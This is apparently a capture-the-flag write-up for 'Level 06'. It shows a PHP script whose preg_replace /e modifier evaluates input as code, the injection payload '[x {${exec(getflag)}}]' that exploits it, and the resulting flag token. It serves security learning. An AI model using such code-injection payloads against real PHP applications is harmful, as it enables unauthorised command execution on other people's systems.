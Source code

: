 ## Level 06
                echo '[x {${exec(getflag)}}]' > /tmp/flag


In this level we have a php script

    #!/usr/bin/php
    <?php
    function y($m) { $m = preg_replace("/\./", " x ", $m)
    $m = preg_replace("/@/", " y", $m)
    return $m
    }
    function x($y, $z) { $a = file_get_contents($y)
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a)
    $a = preg_replace("/\[/", "(", $a)
    $a = preg_replace("/\]/", ")", $a)
    return $a
    }
    $r = x($argv[1], $argv[2])
    print $r

    ?>

we have to found a way to give him getflag as argument, it will trunc some elements in the argument given so '[x {${exec(getflag)}}] will execute /bin/getflag

we have to output this in a file -> echo '[x {${exec(getflag)}}]' > /tmp/flag

./level06 /tmp/flag

    PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
    PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
